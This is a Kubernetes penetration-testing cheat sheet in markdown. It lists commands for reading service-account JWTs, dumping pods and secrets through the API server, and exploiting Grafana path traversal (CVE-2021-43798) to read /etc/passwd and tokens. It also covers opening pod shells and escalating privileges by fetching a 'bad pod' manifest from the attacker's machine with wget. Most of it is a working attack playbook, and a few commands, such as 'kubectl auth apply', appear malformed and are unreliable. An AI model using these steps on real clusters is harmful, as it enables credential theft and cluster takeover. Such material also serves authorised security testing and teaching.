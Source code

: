 ```yaml
---
title: Kubernetes Pentesting
desc: A portable, extensible, open source platform for managing containerized workloads and services, that facilitates both declarative configuration and automation. It uses port 8443.
tags: [8443, Container, Kubectl, Kubernetes]
alts: [JWT-Pentesting]
render_with_liquid: false
---
```


## Fetch Information from Kubernetes API Server

1. **Find Token**

    ```sh
    cat /var/run/secrets/kubernetes.io/serviceaccount/token
    ```

2. **Decode JWT Token**

    If you get the token, decode it using some tool.  

    **[JWT.io](https://jwt.io/){:target="_blank"}** is an useful online tool.  

3. **Fetch Information**

    ```sh
    # -k: insecure (HTTPS)
    curl -k -v -H "Authorization: Bearer <jwt-token>" https://<target-ip>:<target-port>/api/v1/namespaces/default/pods/
    curl -k -v -H "Authorization: Bearer <jwt-token>" https://<target-ip>:<target-port>/api/v1/namespaces/default/secrets/
    ```

<br />

## Interact with Kubernetes API Server

1. **Create a Service Account**

    ```sh
    # Create a ServiceAccount
    kubectl serviceaccount api-explorer
    # Bind the ClusterRole to the ServiceAccount
    # eg. namespace: default
    kubectl create rolebinding api-explorer:log-reader --clusterrole log-reader --serviceaccount default:api-explorer 
    ```

2. **Check Your Permission**

    ```sh
    kubectl auth can-i --list
    # /var/run/secrets/kubernetes.io/serviceaccount/token
    kubectl auth can-i --list --token=<JWT>
    ```

3. **List All Pods**

    ```sh
    kubectl get pods
    ```

4. **List All Secrets**

    ```sh
    kubectl get secrets

    # Get the specific secret
    kubectl get secret <secret-name>
    # Get the specific secret to output json
    kubectl get secret <secret-name> -o 'json'

    # List all data contained in the specific secret
    kubectl describe secret <secret-name>
    ```

5. **Get the Token (JWT) of the Service Account Running a Pod**

    ```sh
    cat /var/run/secrets/kubernetes.io/serviceaccount/token
    ```

<br />

## Grafana Exploiting

Some Grafana versions are vulnerable to Path Traversal.  

Kubernetes creates environment variables by default.

1. **Check Environment Variables on the Target Machine**

    ```sh
    env
    ```

    If you got the GRAFANA environment like the following, the Grafana service is running on the cluster.  

    ```
    GRAFANA_SERVICE_HOST=10.108.133.228
    GRAFANA_PORT=tcp://10.108.133.228:3000
    GRAFANA_PORT_3000_TCP=tcp://10.108.133.228:3000
    ```

2. **Access the Grafana Dashboard**

    You can access the service at **http://<grafana-ip>:<grafana-port>**.  

2. **Get the JWT of the Service Account**

    Using Path Traversal (CVE-2021-43798).

    ```sh
    curl --path-as-is http://<grafana-ip>:<grafana-port>/public/plugins/alertlist/../../../../../../../../etc/passwd
    ```

    Get the token (JWT) of the service account.

    ```sh
    curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
    ```

3. **Decode the JWT and Get Sensitive Information**

    See **[JWT Pentesting](./JWT-Pentesting){:target="_blank"}**.
    

4. **Check Your Permission of This Service**

    Using the JWT, you should get permissions.

    ```sh
    kubectl auth can-i --list --token=<Grafana-JWT>

    # List pods
    kubectl get pods --token=<JWT>
    ```

5. **Get a Shell on the Grafana Pod**

    ```sh
    kubectl exec -it <grafana-pod-name> --token=<Grafana-JWT> -- /bin/bash
    ```

## Privilege Escalation using Bad Pods

    Reference: [everything-allowed-exec-pod.yaml](https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml){:target="_blank"}

1. **Download the Bad Pod**

    At first, you need to download the bad pod on your local machine.

    ```sh
    wget https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml -O privesc.yaml
    ```

    Then start web server to allow the target machine to get this bad pod.

    ```sh
    python3 -m http.server 8000
    ```

3. **Trasfer the Bad Pod to the Target Machine**

    On the target machine, download the bad pod from your local machine.

    ```sh
    wget http://<your-local-ip>:8000/privesc.yaml
    ```

4. **Create the Pod**

    ```sh
    # Create the pod
    kubectl auth apply -f privesc.yaml --token=<JWT>
    
    # List all pods
    kubectl get pods --token=<JWT>
    ```

5. **Get a Shell**

    ```sh
    kubectl exec -it everything-allowed-exec-pod --token=<JWT> -- /bin/bash
    ```
